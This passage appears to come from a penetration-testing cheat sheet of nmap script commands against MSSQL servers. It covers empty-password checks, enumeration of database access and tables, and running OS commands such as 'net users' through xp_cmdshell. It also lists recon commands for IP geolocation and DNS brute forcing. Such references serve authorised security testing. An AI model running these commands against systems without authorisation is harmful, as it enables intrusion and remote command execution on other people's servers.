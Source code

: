 MSSQL - Bruteforce With empty/null password
```
nmap -p1443 --script ms-sql-empty-password <Target>
```
![Nmap](https://pentestlab.files.wordpress.com/2013/04/screenshot-1.png)


MSSQL - Discover which user has access to which db (Credentials Needed)
```
nmap -p1443 --script ms-sql-haddbaccess --script-args mssql.username=USERNAME <target>
```
![Nmap](https://pentestlab.files.wordpress.com/2013/04/screenshot2.png)


MSSQL - List Tables (Credentials Needed)
```
nmap -p1443 --script ms-sql-tables --script-args mssql.username=USERNAME <Target>
```
![Nmap](https://pentestlab.files.wordpress.com/2013/04/screenshot-11.png)


MSSQL - SQL Server xp_cmdshell (Run OS command via xp_cmdshell) 
This will just print the CMD output default (Ipconfig)
```
nmap -p1433 --script ms-sql-xp-cmdshell --script-args mssql.username=USERNAME <Target>
```
![Nmap](https://pentestlab.files.wordpress.com/2013/04/screenshot-2.png)

To Specify the command to use you need to us the arg  "--script-args=ms-sql-xp-cmdshell.cmd='COMMAND'"
As shown as an example bellow

```
nmap -p1433 --script ms-sql-xp-cmdshell --script-args=ms-sql-xp-cmdshell.cmd='net users',mssql.username=USERNAME <Target>
```
![Nmap](https://pentestlab.files.wordpress.com/2013/04/screenshot-3.png)







#### Recon

Find Information about IP address
```
nmap --traceroute --script traceroute-geolocation.nse -p 80 <Target>
```
![Nmap](https://securityonline.info/wp-content/uploads/2016/11/Screenshot-from-2016-11-11-13-50-33.png)




DNS Brute Force
```
nmap -p 80 --script dns-brute.nse <Target>
```

